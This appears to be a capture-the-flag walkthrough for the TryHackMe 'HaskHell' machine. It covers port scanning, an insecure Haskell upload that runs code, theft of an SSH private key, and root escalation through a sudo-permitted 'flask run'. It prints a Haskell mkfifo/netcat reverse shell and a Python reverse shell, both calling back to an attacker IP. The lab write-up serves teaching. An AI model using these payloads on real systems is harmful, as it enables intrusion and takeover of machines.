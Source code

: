 # HaskHell

***

Platform: [Tryhackme](https://tryhackme.com/room/haskhell)

Difficulty: Medium

Initial Access: RCE via Insecure file upload

Privilege Escalation: Misconfigured sudo privileges.

***

Nmap Scan:

```bash
┌──(ghost㉿kali)-[~/tryhackme/haskhell]
└─$ sudo nmap -Pn -A -p- --min-rate 4000 10.201.50.43 -oN nmap.full
[sudo] password for ghost: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-15 00:49 EDT
Nmap scan report for 10.201.50.43
Host is up (0.25s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 1d:f3:53:f7:6d:5b:a1:d4:84:51:0d:dd:66:40:4d:90 (RSA)
|   256 26:7c:bd:33:8f:bf:09:ac:9e:e3:d3:0a:c3:34:bc:14 (ECDSA)
|_  256 d5:fb:55:a0:fd:e8:e1:ab:9e:46:af:b8:71:90:00:26 (ED25519)
5001/tcp open  http    Gunicorn 19.7.1
|_http-server-header: gunicorn/19.7.1
|_http-title: Homepage
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 5 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

| Ports       | Methodology                                                                                               |
| ----------- | --------------------------------------------------------------------------------------------------------- |
| 22 (SSH)    | Potentially for later use.                                                                                |
| 5001 (HTTP) | Gunicorn 19.7.1, maybe vulnerable version, but first have to look at what is running on this http server. |

***

### Initial Enumeration

On port 5001, there was some type of static website hosted.

<figure><img src="https://github.com/user-attachments/assets/dbbc49f8-3ac0-4315-abf5-df0963d9c090" alt=""><figcaption></figcaption></figure>

`/homework1` endpoint:

<figure><img src="https://github.com/user-attachments/assets/9888af50-b4cc-4e36-9316-a215ceb5fa1d" alt=""><figcaption></figcaption></figure>

So, reading above contents of the website shows haskell is going to be taught in this semester and professor had given some homework to students. They can submit it through an endpoint `/upload` , but it’s not found on the server, maybe fuzzing directory will reveal some other endpoints. Main points or hints to note from here:

💡

Only Haskell files are accepted for uploads. Learned that one the hard way last semester...

Your file will be compiled and ran and all output will be piped to a file under the uploads directory.

<figure><img src="https://github.com/user-attachments/assets/71927165-44b7-4231-99a6-5ea34e8dea9a" alt=""><figcaption></figcaption></figure>

Directory fuzzing revealed an endpoint `/submit` , and here we can submit our homework files.

<div data-full-width="false"><figure><img src="https://github.com/user-attachments/assets/4ad58386-fb62-4930-a82a-c196b6a26b9f" alt=""><figcaption></figcaption></figure></div>

<figure><img src="https://github.com/user-attachments/assets/320b602e-2bf6-4429-a711-f1f7bf5ee546" alt=""><figcaption></figcaption></figure>

***

### Initial Access

So, now the question is what is that haskell? (Searched on google about it)

Haskell is a modern, standard, purely functional programming and non-strict language. It is Specially designed to handle a wide range of applications, from numerical through to symbolic. It has an expressive syntax and very rich inbuilt architecture.

Let’s code a simple print command in haskell:

```bash
main = putStrLn "Hello, Haskell!"
```

Save this code in a file named test.hs and let’s try to upload it to the server.

<figure><img src="https://github.com/user-attachments/assets/d6baf1c0-7fc9-4331-b97f-329ef148aae4" alt=""><figcaption></figcaption></figure>

And the server compiles our code, run it and also save it to `/uploads/<filename>` location.

<figure><img src="https://github.com/user-attachments/assets/25e9ef8b-0e22-4b69-ba89-1a12924b74bf" alt=""><figcaption></figcaption></figure>

Searched on google more about how to execute system commands using haskell code and found the method.

Write reverse shell code in haskell and saved it to a file named haskell.hs:

```bash
import System.Process

main = do
callCommand "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.17.87.131 4445 >/tmp/f"
```

Uploaded that file on the submit page.

<figure><img src="https://github.com/user-attachments/assets/9d0e4891-3985-403c-920b-708e87f78aca" alt=""><figcaption></figcaption></figure>

It automatically compiles that code and run it , which triggered reverse shell on our attacker machine.

<figure><img src="https://github.com/user-attachments/assets/9000c0af-8ecc-47d1-9900-4f25fca3b917" alt=""><figcaption></figcaption></figure>

***

### Shell as prof

Enumerating machine with flask user’s account revealed 2 more user’s account that were present in that machine: `haskell` and `prof`

User flask can also read directories of both the users.

<figure><img src="https://github.com/user-attachments/assets/e6906719-3504-4496-ab83-e4d23ea80b69" alt=""><figcaption></figcaption></figure>

Lookind inside prof user’s directory revealed user flag.

<figure><img src="https://github.com/user-attachments/assets/c8f297a7-a572-4c5c-8f1b-24c9ffe662d2" alt=""><figcaption></figcaption></figure>

Also able to read the `id_rsa` file(private rsa key) of user prof inside `/home/prof/.ssh`

<figure><img src="https://github.com/user-attachments/assets/eb161022-9f6e-4aae-b3f3-dfbf15e94cea" alt=""><figcaption></figcaption></figure>

Copied it our attacker machine, gave it suitable permission and logged in to user prof’s account via ssh.

<figure><img src="https://github.com/user-attachments/assets/99798796-dbcd-428c-a471-14a636b704a7" alt=""><figcaption></figcaption></figure>

***

### Shell as root

Checking sudo privileges of user prof revealed user prof can run `/usr/bin/flask run` as root.

<figure><img src="https://github.com/user-attachments/assets/ed9cefbd-e7a4-403b-a83a-49a4c9e94cbf" alt=""><figcaption></figcaption></figure>

Tried running that command with sudo privileges and throws some error:

<figure><img src="https://github.com/user-attachments/assets/b5d7627a-e301-41ef-8119-550aab16d1ad" alt=""><figcaption></figcaption></figure>

Searching about this error on google, showed this error means Flask doesn’t know which Python file contains your application instance. Which means let’s say your flask application file is `app.py` then we have set it to environment variable like these: `export FLASK_APP=app.py` .

Which means we can make any python file which contains reverse shell code in python and can set it to environment variables like above and running that flask run with sudo privileges can provide us root shell.

created a python file named `rev.py` and wrote python reverse shell code inside it.

```python
import os,pty,socket;s=socket.socket();s.connect(("10.17.87.131",4446));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")
```

<figure><img src="https://github.com/user-attachments/assets/e0fb9515-42dc-4a1d-bc9a-a3cae23f1d44" alt=""><figcaption></figcaption></figure>

Set it to environment variable and run it.

```bash
prof@haskhell:~$ export FLASK_APP=rev.py
prof@haskhell:~$ sudo /usr/bin/flask run
```

On our attacker machine, reverse shell got triggered as root on the target machine.

<figure><img src="https://github.com/user-attachments/assets/3efcfda3-421a-46b1-ab24-6edb971cb089" alt=""><figcaption></figcaption></figure>

Grabbed the root flag

<figure><img src="https://github.com/user-attachments/assets/c40978b8-08d1-42fc-825c-b53b5543b9f3" alt=""><figcaption></figcaption></figure>

***

That’s it for this machine.✅

